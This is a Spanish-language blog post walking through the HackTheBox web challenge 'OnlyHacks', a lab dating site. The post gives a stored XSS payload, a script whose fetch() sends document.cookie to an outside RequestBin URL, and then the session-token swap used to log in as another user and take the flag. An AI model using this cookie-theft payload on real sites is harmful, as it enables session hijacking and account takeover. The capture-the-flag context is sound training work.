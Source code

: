 ```yaml
---
title: "HackTheBox - Challenge OnlyHacks"
summary: "Vamos a ver el paso a paso detallado de como ir resolviendo el challenge:"
date: "2025-04-02"
draft: false
tags:
- Tutorial
- HackTheBox
- Challenge
- Web
---
```


### Paso a paso:


- Entro a los dos links q me dieron: 
    ![Test Relative Image](./imagen.png)

<div style="height: 5px;"></div>

- Pruebo registrarme con el mail test@email.htb:
    ![Test Relative Image](./imagen2.png)
    
<div style="height: 5px;"></div>

- Nos registramos y nos dan a elegir personas:
    ![Test Relative Image](./imagen3.png)

<div style="height: 5px;"></div>

- Elegimos a las chicas y después vamos a matches:
    ![Test Relative Image](./imagen4.png)

<div style="height: 5px;"></div>

- Probamos un script en el chat:
    ![Test Relative Image](./imagen5.png)

<div style="height: 5px;"></div>

- Utilizo Requestbin whoapi para generar un link que me muestre las maquinas que piden la petición a dicha web:
    ![Test Relative Image](./imagen6.png)

<div style="height: 5px;"></div>

- Después pego el link con un script en el chat de la maquina atacada:
    <pre><code>&lt;script&gt;fetch(&quot;http://requestbin.whapi.cloud/1kxv70s1?cookie=&quot; + document.cookie);&lt;/script&gt;</code></pre>

<div style="height: 5px;"></div>

- Y veo las peticiones:
    ![Test Relative Image](./imagen7.png)

<div style="height: 5px;"></div>

- Mi sesion web token acaba en W-M asiq la otra es la de la web:
    ![Test Relative Image](./imagen8.png)

<div style="height: 5px;"></div>

- En la pagina presiono ctrl + shift + C y voy a la parte de storage y veo mi sesión web token qur es:
    eyJ1c2VyIjp7ImlkIjo1LCJ1c2VybmFtZSI6ImpvYSJ9fQ.Z-7cdA.q-qU-lMHSmBzD4TQRvw4LU8IW-M
    ![Test Relative Image](./imagen9.png)

<div style="height: 5px;"></div>

- Y lo remplazo por el de Renata que me dio en la petición que hizo a la web:
    eyJ1c2VyIjp7ImlkIjoxLCJ1c2VybmFtZSI6IlJlbmF0YSJ9fQ.Z-7buw.346_oMwGAJSQdJA_GQQoNyGfwZQ

<div style="height: 5px;"></div>    

- Y así entro a la web como Renata:
    ![Test Relative Image](./imagen10.png)

<div style="height: 5px;"></div>

- Y ahi encuentro la llave:
    ![Test Relative Image](./imagen11.png)
    

